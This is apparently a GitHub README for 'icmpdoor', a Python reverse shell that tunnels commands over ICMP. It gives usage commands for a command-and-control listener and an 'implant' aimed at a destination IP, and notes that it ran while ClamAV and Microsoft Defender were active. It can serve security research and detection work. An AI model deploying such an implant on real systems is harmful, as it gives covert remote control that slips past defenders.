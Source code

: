 # icmpdoor - ICMP Reverse Shell
ICMP reverse shell written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

Read [this article](https://cryptsus.com/blog/icmp-reverse-shell.html) for more information.

Python version usage (both Windows and Linux):
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

Binary Windows version usage version:
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

Binary Linux version usage version:
```bash
./icmp-cnc -d DESTINATION_IP (Command and Control)
./icmpdoor -d DESTINATION_IP (Implant)
```

Parameters details:
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
